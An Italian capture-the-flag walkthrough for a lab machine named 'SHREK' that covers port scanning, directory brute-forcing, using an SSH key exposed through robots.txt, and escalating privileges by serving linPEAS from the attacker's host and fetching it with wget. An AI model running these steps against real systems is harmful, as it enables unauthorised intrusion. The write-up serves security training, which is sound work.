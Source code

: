 # SHREK

iniziamo con uno scan della macchina 

```bash
nmap shrek.thm -sV -sC 
```

troviamo varie porte aperte tra cui la porta 80 simbolo di una web application

```bash
http://shrek.thm/
```

nulla di interessante andiamo a vedere che cartelle contiene
```bash
gobuster dir -u http://shrek.thm/ -w /usr/share/wordlist/dirbuster/common.txt
```

abbiamo trovato robots.txt andiamo a vedere cosa contiene

```bash
http://shrek.thm/robots.txt
```

ecco un id_rsa copiamola e salviamola sulla nostra macchina con il nome di id_rsa

```bash
nano id_rsa
chmod 600 id_rsa
```

entriamo in shh

## ssh

```bash
ssh -i id_rsa shrek@shrek.thm
```
## privesc 

portiamo linPEAS.sh sulla macchina (scaricatevelo prima!!)
sulla nostra macchina apriamo un http dove si trova lo script
```bash
python -m http.server 80
```

successivamente andiamo a prendere il file
```bash
wget http://nostroip/linPEAS.sh
```

diamogli i giusti permessi 
```bash
chmod +x linPEAS.sh
./linPEAS.sh
```

troviamo un vulnerabilità a livello gdb e tramite GTFO.BINS vedete che comando eseguire per il privesc
